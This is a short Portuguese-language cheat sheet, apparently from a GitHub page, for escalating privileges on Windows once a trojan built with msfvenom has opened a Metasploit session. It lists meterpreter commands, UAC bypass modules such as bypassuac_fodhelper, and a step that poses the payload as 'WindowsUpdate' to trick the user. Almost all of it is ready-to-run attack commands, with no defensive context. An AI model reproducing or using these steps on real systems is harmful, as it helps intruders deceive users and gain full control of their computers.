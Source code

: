 ### Escalação de privilégio ***com interação do usuário***
~~~~
getuid
getprivs
getsystem -h
~~~~
Depois de criar o cavalo de troia através do MSFVENOM faça:
~~~~
metasploit
meterpreter> background
exploit (multi/handler)> search uac
use exploit/windows/local/ask

exploit (windows/local/ask) > set FILE_NAME WindowsUpdate
exploit (windows/local/ask)> session 1
exploit (windows/local/ask)> technique PSH
exploit (windows/local/ask)> run
exploit (windows/local/ask)> sessions -i 2
~~~~

### Escalação de privilégio ***sem interação do usuário***

1ª tentativa
~~~~
use exploit/windows/local/bypassuac
set session 1 
run
~~~~
2ª tentativa
~~~~
use exploit/windows/local/bypassuac_fodhelper
exploit (windows/local/bypassuac_fodhelper)> set session 1 
exploit(windows/local/bypassuac_fodhelper)> run
meterpreter> getsystem
~~~~

Escalonamento de privilégios através de uma opção pré-instalada no Metasploit que oferece exploits de acordo com parâmetros do Windows
~~~~
exploit(multi/handler)> use post/multi/recon/local_exploit_suggester
exploit(multi/handler)> set session 1 
exploit(multi/handler)> run
~~~~
